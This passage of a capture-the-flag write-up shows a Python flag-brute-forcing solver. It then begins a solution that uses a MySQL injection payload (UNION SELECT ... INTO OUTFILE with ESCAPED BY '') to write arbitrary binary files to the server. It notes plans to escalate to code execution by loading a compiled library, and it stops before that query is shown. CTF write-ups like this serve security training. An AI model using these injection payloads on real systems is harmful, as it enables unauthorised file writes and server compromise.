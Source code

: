 ```python:solver.py

known = next(c for c in used if c not in "uoftctf")

didchange = True
while didchange:
    didchange = False
    for char in used:
        if check(s, known + char):
            known += char
            didchange = True
            print(known)
        

didchange = True
while didchange:
    didchange = False
    for char in used:
        if check(s, char + known):
            known = char + known
            didchange = True
            print(known)
```


## ✅ Prepared: Flag 2

### Overview

The server is the same as the "Prepared: Flag 1" challenge. We need to run `/readflag` in the shell to get the flag.

### Solution

Using SQL injection, we can write any binary files. [Reference: PayloadAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-command-execution)

```
SELECT * FROM users WHERE username = 'a' AND password = '' UNION SELECT 0xf09f9880,'','' INTO OUTFILE '/tmp/1.txt' FIELDS ESCAPED BY ''#
```

This will result in a file containing the Unicode character "😀". `ESCAPED BY ''` is necessary because, otherwise, all the null bytes would be escaped as `\0`. 

How can we use this to run a shell code inside the server? I first thought of overriding Python code but it doesn't work because we only have permission to write in `/tmp` and `/var/run/mysqld`. The same goes for [UDF in MySQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#command---udf-library) because it has to be located in `/usr/lib`.

My teammates pointed out that we could use [`ctype.cdll`](https://corgi.rip/posts/buckeye-writeups/#Gentleman) to load and execute a compiled CDLL with the following query:
